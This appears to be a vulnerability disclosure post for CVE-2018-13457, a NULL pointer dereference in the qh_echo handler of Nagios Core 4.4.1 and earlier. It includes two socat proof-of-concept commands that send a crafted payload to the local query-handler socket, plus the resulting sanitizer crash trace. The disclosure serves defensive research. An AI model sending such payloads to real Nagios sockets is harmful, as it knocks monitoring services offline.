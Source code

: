 ```yaml
---
layout: post
title: "[CVE-2018-13457] Nagios Core qh_echo Denial of Service"
comments: true
description: "Nagios Core qh_echo Denial of Service"
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_echo in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -

#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
